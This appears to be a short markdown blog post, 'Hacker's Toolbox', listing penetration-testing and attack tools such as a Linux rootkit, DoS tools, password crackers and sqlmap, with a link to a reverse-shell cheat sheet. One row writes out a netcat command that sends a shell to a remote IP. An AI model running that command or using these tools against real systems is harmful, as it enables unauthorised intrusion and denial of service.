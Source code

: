 ```yaml
---
title: Hacker's Toolbox
excerpt: >-
  This article will contain various cool tools I've encountered during my research.
categories:
  - Penetration-Testing
tags:
  - pentest
  - tools
---
```



Name                      | description
--------------------------|------------------------------------------------
vlany                     | a Linux rootkit
sqlmap                    | automated SQL injection
nmap                      | network scanner
openvas                   | vulnrability scanner
burpsuite                 | intercepting proxy, with a lot of nice features
John the ripper           | password decryption
LOIC                      | DOS tool (for windows)
slowhttptest              | DOS tool for linux (tested on kali)
metasploit                | malware generator and much more
etherape                  | GUI showing eth interface traffic
Hydra                     | Password bruteforcing
Driftnet                  | captures images sent on wire (non https)
urlsnarf                  | captures HTTP requests
nc -e /bin/sh ip  port    | sends a shell to the ip
nikto                     | web vulnrability checker
dirb                      | web brute forcer
crunch                    |  wordlist generator
wpscan                    | scan for wordpress vulnerabilities





useful links:
[reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
